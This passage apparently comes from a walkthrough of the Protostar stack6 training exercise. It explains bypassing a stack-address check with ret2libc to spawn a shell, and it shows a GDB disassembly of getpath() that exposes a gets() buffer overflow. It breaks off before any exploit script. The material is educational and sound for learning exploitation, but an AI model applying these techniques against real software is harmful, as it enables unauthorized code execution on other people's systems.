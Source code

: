 Let's now make see what we can and can't return to. First of all, in some of these older Linux systems `0xbf000000` was the "prefix" used to identify 
**stack values**. So if we cannot return to the stack, what else can we do? Well, can't we return to the huge C library, **libc**? Yes we can! 
We can bypass this stack check by using **ret2libc** (return to libc), then execute the `system("/bin/sh")` to get a shell.

## Exploit

Ok, so now let's get our memory addresses and exploit script.

First of all, open `./stack6` in GDB and disassemble `getpath()` since `main()` just calls `getpath()`:

```bash

user@protostar:/opt/protostar/bin$ gdb stack6
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disas getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>: push   ebp
0x08048485 <getpath+1>: mov    ebp,esp
0x08048487 <getpath+3>: sub    esp,0x68
0x0804848a <getpath+6>: mov    eax,0x80485d0
0x0804848f <getpath+11>:        mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    eax,ds:0x8049720
0x0804849c <getpath+24>:        mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:        and    eax,0xbf000000
0x080484bd <getpath+57>:        cmp    eax,0xbf000000
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    eax,0x80485e4
0x080484c9 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:        mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    eax,0x80485f0
0x080484e9 <getpath+101>:       lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:       mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave  
0x080484f9 <getpath+117>:       ret    
End of assembler dump.
(gdb) 
```